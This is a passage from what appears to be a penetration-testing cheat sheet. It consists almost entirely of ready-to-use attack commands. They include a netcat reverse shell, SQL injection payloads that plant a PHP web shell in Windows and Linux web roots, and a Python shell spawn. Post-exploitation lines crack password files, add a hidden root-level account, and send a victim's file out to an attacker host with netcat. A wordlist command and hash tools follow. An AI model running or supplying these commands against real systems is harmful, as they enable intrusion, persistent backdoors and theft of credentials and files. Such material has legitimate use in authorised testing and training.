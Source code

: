 ```sh
nc -nv 10.11.55.28 1234 -e /bin/bash
```

### Shell from SQL injection

- Windows

```sql
?id=1 union all select 1,2,3,4,""<?php echo shell_exec($_GET['cmd']);?>"",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'
```

- Linux

```sql
?id=1 union all select 1,2,3,4,""<?php echo shell_exec($_GET['cmd']);?>"",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'
```

### python Spawn shell

```python
import pty; pty.spawn("/bin/sh")
```

## Post Exploitation

```sh
unshadow passwd.txt shadow.txt > passwords.txt
sudo useradd -ou 0 -g 0 john | sudo passwd John@1234
```

```sh
Attacker side:
nc -l -p 4444 -q 1 > file < /dev/null

Victim side:
nc <attacker ip> 4444 < file
```

```sh
python -m http.server
python -m SimpleHTTPServer
```

## Words list generator

```sh
cewl -w wordslist.txt -d 10 http://$IP
```

## Hash

- hash-identifier
- hashid

